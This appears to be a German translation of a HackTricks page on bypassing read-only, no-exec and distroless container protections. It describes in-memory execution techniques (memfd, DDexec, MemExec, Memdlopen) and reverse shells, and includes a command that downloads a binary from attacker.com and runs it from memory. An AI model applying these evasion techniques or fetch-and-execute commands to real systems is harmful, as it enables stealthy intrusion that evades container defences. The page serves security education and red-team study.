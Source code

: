 # Umgehen von FS-Schutzmaßnahmen: Nur-Lesen / Keine-Ausführung / Distroless

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hackerkarriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließendes Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos finden Sie die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Erkundung der Linux-Speicher-Manipulation für Stealth und Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth-Eindringungen mit DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Nur-Lesen / Keine-Ausführung-Szenario

Es wird immer häufiger, Linux-Maschinen mit **Schutzmaßnahmen für eine nur-Lese (ro) Dateisystem**, insbesondere in Containern, zu finden. Dies liegt daran, dass das Ausführen eines Containers mit einem ro-Dateisystem so einfach ist wie das Festlegen von **`readOnlyRootFilesystem: true`** im `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Auch wenn das Dateisystem als ro eingebunden ist, wird **`/dev/shm`** dennoch beschreibbar sein, sodass wir nichts auf die Festplatte schreiben können. Dieser Ordner wird jedoch mit einer **Keine-Ausführung-Schutzmaßnahme eingebunden**, sodass Sie, wenn Sie hier eine Binärdatei herunterladen, diese **nicht ausführen können**.

{% hint style="warning" %}
Aus der Sicht eines Red Teams wird es dadurch **kompliziert, Binärdateien herunterzuladen und auszuführen**, die nicht bereits im System vorhanden sind (wie Backdoors oder Enumeratoren wie `kubectl`).
{% endhint %}

## Einfachster Umgehungsweg: Skripte

Beachten Sie, dass ich von Binärdateien gesprochen habe, Sie können **jedes Skript ausführen**, solange der Interpreter innerhalb der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `python` installiert ist.

Dies reicht jedoch nicht aus, um Ihre Binärdatei-Backdoor oder andere Binärwerkzeuge, die Sie ausführen müssen, auszuführen.

## Speicherumgehungen

Wenn Sie eine Binärdatei ausführen möchten, das Dateisystem dies jedoch nicht zulässt, ist der beste Weg, dies zu tun, indem Sie es aus dem Speicher ausführen, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec-Systemaufruf-Umgehung

Wenn Sie leistungsstarke Skript-Engines innerhalb der Maschine haben, wie **Python**, **Perl** oder **Ruby**, könnten Sie die Binärdatei zum Ausführen aus dem Speicher herunterladen, sie in einem Speicherdateideskript speichern (`create_memfd`-Systemaufruf), der nicht durch diese Schutzmaßnahmen geschützt wird, und dann einen **`exec`-Systemaufruf** aufrufen, wobei der **fd als auszuführende Datei** angegeben wird.

Hierfür können Sie das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Sie können ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache mit der **Binärdatei komprimiert und b64-codiert** generieren, mit den Anweisungen zum **Dekodieren und Dekomprimieren** in einem **fd**, das durch Aufruf des `create_memfd`-Systemaufrufs erstellt wurde, und einem Aufruf des **exec**-Systemaufrufs zum Ausführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprachen wie PHP oder Node, da sie keine **Standardmethode zum Aufrufen von Rohsystemaufrufen** aus einem Skript haben. Daher ist es nicht möglich, `create_memfd` aufzurufen, um das **Speicher-FD** zum Speichern der Binärdatei zu erstellen.

Darüber hinaus wird das Erstellen eines **regulären FDs** mit einer Datei in `/dev/shm` nicht funktionieren, da Sie es nicht ausführen dürfen, da die **Keine-Ausführung-Schutzmaßnahme** angewendet wird.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es Ihnen ermöglicht, den **Speicher Ihres eigenen Prozesses zu modifizieren**, indem Sie seinen **`/proc/self/mem`** überschreiben.

Daher können Sie, indem Sie den vom Prozess ausgeführten Assemblercode kontrollieren, ein **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es Ihnen, Ihren eigenen **Shellcode** oder **beliebige Binärdateien** aus dem **Speicher zu laden und auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es handelt sich um einen **DDexec-Shellcode-Dämon**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen möchten**, nicht DDexec neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Dämon kommunizieren, um neue Binärdateien zu übergeben, zu laden und auszuführen**.

Ein Beispiel, wie Sie **Memexec verwenden können, um Binärdateien von einer PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die **Memdlopen**-Technik eine **einfachere Möglichkeit, Binärdateien im Speicher zu laden**, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist Distroless

Distroless-Container enthalten nur die **absolut notwendigen Komponenten, um eine bestimmte Anwendung oder einen bestimmten Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, aber schließen größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die Angriffsfläche von Containern zu **verringern, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert werden.

### Reverse-Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie finden auch keine Binärdateien wie `ls`, `whoami`, `id`... alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **keine** **Reverse-Shell** erhalten oder das System **wie gewohnt durchsuchen können**.
{% endhint %}

Wenn jedoch der kompromittierte Container beispielsweise ein Flask-Web ausführt, ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn Node ausgeführt wird, können Sie eine Node-Rev-Shell erhalten, und dasselbe gilt für fast jede **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das System **durch die Fähigkeiten der Sprache durchsuchen**.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse-Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In diesen Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Speicherausführungstechniken verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie Sie **einige RCE-Schwachstellen ausnutzen** können, um Skriptsprachen **Reverse-Shells zu erhalten** und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
